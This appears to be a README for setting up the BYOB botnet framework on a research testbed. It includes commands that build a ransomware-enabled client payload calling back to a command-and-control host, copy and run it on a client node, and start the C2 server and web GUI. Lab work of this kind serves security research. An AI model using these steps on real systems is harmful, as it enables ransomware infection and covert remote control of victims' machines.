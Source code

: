 # BYOB

This page describes how we install and use [Build Your Own Botnet](https://github.com/STEELISI/byob/) on a Merge testbed

## Prerequisites

Run this script in your XDC:

```shell
sudo bash xdc/init-xdc-defaults.sh
```

## Installation

Run this ansible playbook in your XDC to download and install BYOB. There are a few assumptions currently:
1. You are using the `testbotenv` topology shown here: https://launch.mod.deterlab.net/project/discern/experiment/testbotenv
2. You only want to install BYOB on the `botmaster` node

To run the playbook, do:
```shell
cd ansible/
ansible-playbook -i inventories/testbotenv.ini setup-testbotenv.yml
```

## Example: Server/Client setup


### Building a client

We will use the `botmaster` node to generate a client. The client will have a ransomware
module built into it.

SSH to the botmaster node from your XDC
```shell
ssh botmaster
```

```shell
cd /opt/byob/byob.git/byob
python3 client.py --freeze botmaster.infra 1337 ransom
```

After this completes, you should see a line like the following:
```shell
(24,551,600 bytes saved to file: /opt/byob/byob.git/byob/dist/zGs)
```

We now scp this module to our home directory on the client (for example, `b1`):
```shell
scp dist/zGs b1.infra:
```

Lastly, startup the server
```shell
python3 server.py
```

### Staring the client

SSH from your XDC to the client (for example, `b1`):
```shell
ssh b1
```

Start the module that you scp'd above:
```
./zGs
```

At this point, the server should display a message like:
```
[+] Connection: 172.30.0.11
    Session: 0
    Started: Wed Nov  8 20:34:50 2023
```

## Running the GUI

There is also a GUI option that can be used on the server instead of the server.py command line
tool.  SSH to the `botmaster` node and execute this command and leave the server running:
```shell
cd /opt/byob/byob.git/web-gui
python3 run.py
```

### Accessing the BYOB GUI

Use SSH port forwarding to reach the GUI. From your local workstation:
```shell
mrg xdc ssh <your XDC> -L 8000:botmaster:5000
```

Then, from a web browser on your local machine, navigate to http://localhost:8000/

